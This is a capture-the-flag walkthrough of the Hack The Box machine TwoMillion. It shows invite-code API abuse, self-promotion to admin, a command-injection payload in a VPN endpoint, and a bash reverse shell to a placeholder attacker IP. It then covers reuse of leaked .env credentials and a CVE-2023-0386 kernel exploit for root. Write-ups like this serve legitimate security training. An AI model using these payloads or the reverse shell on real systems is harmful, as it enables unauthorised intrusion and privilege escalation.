# Introduction

TwoMillion is an easy-rated Linux machine on Hack The Box that features a recreation of the old HTB website where users had to hack their way in to receive an invite code. The attack path involves reverse-engineering an invite code generation API, exploiting a command injection vulnerability in an admin VPN endpoint, and escalating privileges via a kernel exploit targeting CVE-2023-0386 (OverlayFS/FUSE).

# Enumeration

## Nmap

Starting with a full port scan to identify running services:

```bash
nmap -sC -sV -p- -v 2million.htb
```

Two ports came back open:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH (OpenSSH 8.9p1) and an Nginx web server on port 80. The web server was redirecting to `http://2million.htb/`, so that hostname was added to `/etc/hosts` before proceeding.

## Web Application

Browsing the site on port 80 revealed a recreation of the old Hack The Box website -- the one where users had to hack their way in to get an invite code to join the platform.

# Foothold

## Cracking the Invite Code

The first step was figuring out how to generate a valid invite code. Inspecting the page source revealed an interesting JavaScript file:

`http://2million.htb/js/inviteapi.min.js`

The script was obfuscated but contained references to two key functions: `makeInviteCode` and `verifyInviteCode`. Running `makeInviteCode()` in the browser's developer console returned an encrypted response:



The response indicated the data was ROT13 encoded. Decoding it revealed the instructions:

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Following those instructions with curl:

```bash
curl -X POST -v "http://2million.htb/api/v1/invite/generate"
```

```json
{"0":200,"success":1,"data":{"code":"MDZFUlAtTkg0UlItUU5BWjItQTMxR1k=","format":"encoded"}}
```

The response contained a base64-encoded invite code. Decoding it:

```bash
echo -n 'MDZFUlAtTkg0UlItUU5BWjItQTMxR1k=' | base64 -d
06ERP-NH4RR-QNAZ2-A31GY
```

## Registering and Logging In

Using the decoded invite code to register an account:



After registering and logging in, the old HTB dashboard appeared:



Only a few endpoints within the site were functional:

```
Dashboard at /home
Rules at /home/rules
Changelog at /home/changelog
Access at /home/access
```

The Access page (`/home/access`) allowed generating a VPN connection pack. Two API endpoints were associated with it:

```
/api/v1/user/vpn/generate
/api/v1/user/vpn/regenerate
```

## API Enumeration

Loading up Burp Suite to intercept traffic, I captured the VPN generation request and sent it to Repeater. Changing the endpoint from `/api/v1/user/vpn/generate` to just `/api` revealed that the API used version 1:



Hitting `/api/v1` returned the full list of available API endpoints:



```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

The admin section immediately stood out -- particularly `PUT /api/v1/admin/settings/update`.

## Escalating to Admin via the API

Hitting the `/api/v1/admin/settings/update` endpoint with a PUT request, the API complained about a missing `email` field:



Adding the `email` parameter, it then asked for `is_admin`:



After trying `true` (which didn't work), setting `is_admin: 1` successfully elevated the account to admin:



## Command Injection

With admin privileges, the next target was `POST /api/v1/admin/vpn/generate`. Hitting this endpoint revealed it required a `username` parameter:



Adding a username returned what appeared to be VPN configuration output:



The PHP backend was likely calling an external script with the username as an argument -- something like `exec("somescript.sh $username")`. To test for command injection, the username was set to `; id #` which would terminate the script command, execute `id`, and comment out anything after:



Command injection confirmed -- the output of `id` came back showing `uid=33(www-data)`.

## Enumerating via Injection

Using the injection to explore the filesystem, listing `/home/` revealed a single user:



Attempting to read `user.txt` in `/home/admin/` was denied since we were running as `www-data`:



## Getting a Reverse Shell

Time to upgrade from blind command injection to a proper shell. A bash reverse shell was injected via the username parameter:

```
bash -c 'bash -i >& /dev/tcp/KALI_IP/4444 0>&1'
```



The shell landed as `www-data`. Upgrading to a full TTY using the standard technique:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# CTRL+Z to background
stty raw -echo; fg
reset
```



## Lateral Movement to Admin

The reverse shell dropped into `/var/www/html`. Listing the files revealed a `.env` file:

```
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Testing these credentials for password reuse over SSH:



The database password worked for SSH as the `admin` user. The login banner also indicated the user had mail.

## User Flag

```
admin@2million:~$ cat ~/user.txt
39202...........9edf4c
```

# Privilege Escalation

## Reading Admin's Mail

The SSH login banner mentioned mail waiting for the admin user:



```
admin@2million:~$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700

Hey admin,

I'm know you're working as fast as you can to do the DB migration.
While we're partially down, can you also upgrade the OS on our web host?
There have been a few serious Linux kernel CVEs already this year.
That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

The mail from ch4p (HTB's founder) directly hinted at an OverlayFS/FUSE kernel vulnerability.

## CVE-2023-0386 - OverlayFS/FUSE

A quick search for OverlayFS/FUSE kernel CVEs pointed to CVE-2023-0386:



A proof-of-concept exploit was found on GitHub. The exploit was downloaded as a ZIP, then uploaded to the target via rsync:

```bash
rsync -v --progress CVE-2023-0386-master.zip admin@2million.htb:/home/admin
```

On the target, the exploit was unzipped and compiled:

```bash
admin@2million:~$ unzip CVE-2023-0386-master.zip
admin@2million:~$ cd CVE-2023-0386-master
admin@2million:~/CVE-2023-0386-master$ make all
```

The exploit requires two terminals. In Terminal 1, the fuse binary is executed:



In Terminal 2, the exp binary is executed:



After the exploit completes, running `sudo bash` drops into a root shell:



## Root Flag

```
root@2million:~# cat /root/root.txt
55d1f15...........593f8c
```

# Summary

| Stage | Technique |
| --- | --- |
| Enumeration | Nmap full port scan, vhost discovery |
| Invite Code | Reverse-engineering `inviteapi.min.js`, ROT13 decoding, base64 decoding |
| API Abuse | Enumerating API endpoints, escalating to admin via `PUT /api/v1/admin/settings/update` |
| Foothold | Command injection in `/api/v1/admin/vpn/generate` username parameter |
| Lateral Movement | Password reuse from `.env` database credentials to SSH as admin |
| Privilege Escalation | CVE-2023-0386 OverlayFS/FUSE kernel exploit |

TwoMillion is a nostalgic machine that recreates the original HTB invite challenge while teaching several important concepts: always enumerate API endpoints when you find one, test user-controlled input for command injection especially when backend scripts are involved, check for credential reuse across services, and pay attention to system mail -- it can contain direct hints about the privilege escalation path.
